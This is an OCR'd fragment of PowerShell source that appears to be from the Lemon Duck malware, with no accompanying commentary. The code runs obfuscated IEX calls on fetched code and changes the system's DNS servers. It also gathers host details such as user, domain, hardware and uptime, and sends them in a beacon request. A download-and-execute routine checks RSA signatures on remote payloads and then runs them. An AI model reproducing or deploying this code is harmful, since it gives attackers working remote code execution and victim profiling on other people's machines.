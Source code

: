 ```powershell
}
$code1=gcode "If"
I`Ex $code1
if($localIf){
	stp ((gcf $code1 $ifmd5 $ifbin)+(gpb $rename))
}
if($is64){
	$code2=gcode "TMn"
	I`Ex $code2
	if($localTMn){
		stp ((gcf $code2 $mmd5 $mbin)+(gpa $mbin $rename))
	}
}
if(($isn -or $isa) -and $is64){
	$code3=gcode "TMng"
	I`Ex $code3
	if($localTMng){
		stp ((gcf $code3 $mgmd5 $mgbin)+(gpa $mgbin $rename))
	}
}
$code4=gcode "Kr"
I`Ex $code4
if($localKr){
	stp ((gcf $code4 $krmd5 $krbin)+(gpb $rename))
}
try{(get-wmiobject -class win32_networkadapterconfiguration -filter ipenabled=true).SetDNSServerSearchOrder(@('8.8.8.8','9.9.9.9'))}catch{}
$params+="&"+(@($os,[Int]$is64,$user,$domain,$drive,$card,$mem,[Int]$permit,($lifmd5[0..5]-join""),($lmmd5[0..5]-join""),($lkrmd5[0..5]-join""),$mv,$mip,$mhr,$uptime,$timestamp,"0.6")-join"&")
function SIEX {
	Param(
	[string]$url
	)
	try{
		$webclient = Ne`w-Obj`ect Net.WebC`lient
		$finalurl = "$url"+"?"+"$params"
		try{
			$webclient.Headers.add("User-Agent","Lemon-Duck-"+$Lemon_Duck.replace('\','-'))
		} catch{}
		$res_bytes = $webclient.DownloadData($finalurl)
		if($res_bytes.count -gt 173){
			$sign_bytes = $res_bytes[0..171];
			$raw_bytes = $res_bytes[173..$res_bytes.count];
			$rsaParams = New-Object System.Security.Cryptography.RSAParameters
			$rsaParams.Modulus = 0xda,0x65,0xa8,0xd7,0xbb,0x97,0xbc,0x6d,0x41,0x5e,0x99,0x9d,0x82,0xff,0x2f,0xff,0x73,0x53,0x9a,0x73,0x6e,0x6c,0x7b,0x55,0xeb,0x67,0xd6,0xae,0x4e,0x23,0x3c,0x52,0x3d,0xc0,0xcd,0xcd,0x37,0x6b,0xf3,0x4f,0x3b,0x62,0x70,0x86,0x07,0x96,0x6e,0xca,0xde,0xbd,0xa6,0x4f,0xf6,0x11,0xd1,0x60,0xdc,0x88,0xbf,0x35,0xf2,0x92,0xee,0x6c,0xb8,0x2e,0x9b,0x7d,0x2b,0xd1,0x19,0x30,0x73,0xc6,0x52,0x01,0xcd,0xe7,0xc7,0x34,0x78,0x8a,0xa7,0x9f,0xe2,0x12,0xcd,0x79,0x40,0xa7,0x91,0x6a,0xae,0x95,0x8e,0x42,0xd0,0xcf,0x39,0x6e,0x30,0xcb,0x0a,0x98,0xdb,0x97,0x3f,0xf6,0x2e,0x95,0x10,0x72,0xfd,0x63,0xd5,0xf7,0x88,0x63,0xa4,0x7b,0xae,0x97,0xea,0x38,0xb7,0x47,0x6b,0x5d
			$rsaParams.Exponent = 0x01,0x00,0x01
			$rsa = New-Object -TypeName System.Security.Cryptography.RSACryptoServiceProvider;
			$rsa.ImportParameters($rsaParams)
			$base64 = -join([char[]]$sign_bytes)
			$byteArray = [convert]::FromBase64String($base64)
			$sha1 = New-Object System.Security.Cryptography.SHA1CryptoServiceProvider
			if($rsa.verifyData($raw_bytes,$sha1,$byteArray)) {
				IEX (-join[char[]]$raw_bytes)
			}
		}
	} catch{}
}
```